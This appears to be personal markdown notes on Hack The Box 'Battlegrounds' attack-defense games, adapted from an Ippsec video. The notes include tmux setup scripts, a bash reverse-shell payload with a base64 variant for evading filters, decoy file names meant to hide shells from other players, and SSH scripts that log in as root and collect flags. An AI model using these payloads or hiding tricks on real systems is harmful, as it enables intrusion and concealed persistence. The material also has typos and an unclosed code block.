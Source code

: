 # Battlegrounds 

**"If you know the enemy and know yourself, you need not fear the results of a hundred battles. If you know yourself but not the enemy, for every victory gained you will also suffer defeat."* - Sun Tzu, Art of War.

Try to, at some point I master hacking in battlegrounds context. This hope is that this will morph into an instructional Art of War for Hacking. From absolute novice to master.

## Ippsec Introductional Scripting
[Hack The Box Hacking Battlegrounds - Cyber Mayhem Gameplay with Ippsec](https://www.youtube.com/watch?v=o42dgCOBkRk)

This section is notation and inpsired by Ippsec's "{"workflow"}" from around Oct 2020. Methods change and this document should also reflect that knowledge is power. Knowing your enemy and what they know is power. Defense and Attack are both in a context of conflict are the same thing - action to end conflict.

Requirements:
1. Tmux or equivalent and setup to manage connections, information and tools.
Although not stated by Ippsec a tmux scripting to setup a terminal multiplexer of 
```bash
#!/bin/bash

tmux new -s Battleground 
tmux new-window -t SERVER
tmux new-window -t HOME
tmux new-window -t BLUE
tmux new-window -t MSF
tmux new-window -t ATK

tmxu send-keys -t HOME 'cp bg/ /tmp; cd tmp/bg' #setup 
tmux send-keys -t HOME './startBGs.sh'
```

2. StartBG.sh 
```bash
#!/bin/bash

cp -r www-skel/ www/
sed -i "s/$IP/$1/g" www/*
cp www/$reverseshell www/$decoy-name
cp www/$reverseshell www/$decoy-name 
echo "bash -c 'bash -i >& /dev/tcp/$1/$port 0>&1'" >> www/shell.sh
SHELL=$(cat www/shell.sh | base64 -w 0)
echo "echo -n '$SHELL' | bash64 -d | bash" >> www/shell.b64.sh
```
IP variable in the third line must be changed to match a default script variable.
The b64 version is to bypass badchars and filtering.  
Decoy naming: the variable in this script is such that the naming of the shell in the file directory it is run from or process directory `/proc/$int` as process. The file names below were given as examples of ways to avoid detection from other players. Each player has some idea of what is regularly in the www directory so a wordpress file would seem ordinary were as long string of 'a's could clutter the process tree or overflow to the textual display obfuscating another players `ps -aux` command.
```bash
decoy-name=#of the following
wp-load.php
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaah-RCE.php.gif
```

3. accesscastle.sh $IP $PASSWORD
```bash
#!/bin/bash
# Ippsec castle access script from Hack the Box Hacking Battlegrounds video
sshpass -p $2 ssh -o GlobalKnownHostsFile=/dev/null -o UserKnownHostsFile=/dev/null -o StrictHostKeysChecking=no root@$1
```

4. getflags.sh 
This script will access the castles access the hostkeys and print out the flags. It will ask for a password if the hostkey is NOT there.
```bash
for i in $(seq 105 108); do
        echo "10.10.110.$i"
        ssh -o "BatchMode=Yes" -o "StrictHostKeyChecking=no" \
                -o "GlobalKnownHostsFile=/dev/null" -o "UserKnownHostsFile=/dev/null" \
                -i $privatekey \
                root@10.10.110.$i "cat /root/flag.txt; echo; cat /opt/flag.txt; echo" 2>/dev/null
        done
```

5. Metasploit is efficient. Hacking without makes you better; Metasploit streamline exploit execution chain. Speed and time are important and without metasploit research and script fixing takes time.  Shell stablisation is plain for defenders to see, with metaspoit shell there is no need to stablise.

6. Create more panes for Tmux 

8. Configure Burp proxy(if using firefox to Hack from) `Proxy -> Options -> Intercept Client Request -> Add -> Match Relationship = IP address; Match condition 10.10.110.100-120` and disabling Websockets Messages on the same Proxy tab, Options `Intercept WebSockets Messages -> untick Intercept client-to-server messages & untick Intercept server-to-client messages`. This stop the background page slowing down request cycling stopping you from intercepting Battleground relevant pages.

## On Castle Enumeration
```bash
ps -aef --forest

## References

[Hack The Box Hacking Battlegrounds - Cyber Mayhem Gameplay with Ippsec](https://www.youtube.com/watch?v=o42dgCOBkRk)
[Tmux Scripting](https://tao-of-tmux.readthedocs.io/en/latest/manuscript/10-scripting.html)


Cyberwarfare

